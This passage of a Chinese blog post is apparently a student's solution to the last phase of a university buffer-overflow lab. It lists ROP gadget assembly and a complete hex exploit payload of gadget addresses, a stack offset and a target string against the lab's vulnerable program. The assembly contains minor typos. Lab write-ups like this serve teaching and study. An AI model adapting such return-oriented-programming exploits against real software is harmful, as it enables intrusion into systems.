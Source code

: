 我自己做的时候，没有明白前面一点，感觉不是很难，所以就失败了。看了别人的答案后，发现真的挺复杂的，主要是汇编代码编写上的问题。这里我也不分析了，流程和前面一样，只不过流程长了一点。这里我直接给出汇编代码。

```
mov %rsp, %rax
mov %rax, %rdi
popq %rax //栈值为0x48
movl %eax, %edx
movl %edx,%ecx
movl %ecx, %esi
leap (%rdi,%rsi,1),%rax //rax = 栈顶值 + 0x48
mov %rax,rdi //传递参数
```
对应的答案为：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00
cc 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00 //字符串距离栈顶的距离
dd 19 40 00 00 00 00 00
69 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00 //touch3地址
35 39 62 39 39 37 66 61 //字符串
00
```
##结束语

总的来说，这个实验，就最后一个比较难，其他的难度不是很高，只要认真做，做出来不难。做实验之前，还是要仔细阅读实验手册，这样可以避免一些弯路；最好不要一上来就看别人的博客。

这个实验使我意识到了，一个软件的安全性，取决于它最薄弱的环节。就像Part II，虽然栈上禁止执行代码，并且有栈随机化的机制，但由于一个缓冲区溢出的漏洞，还是可能受到攻击。
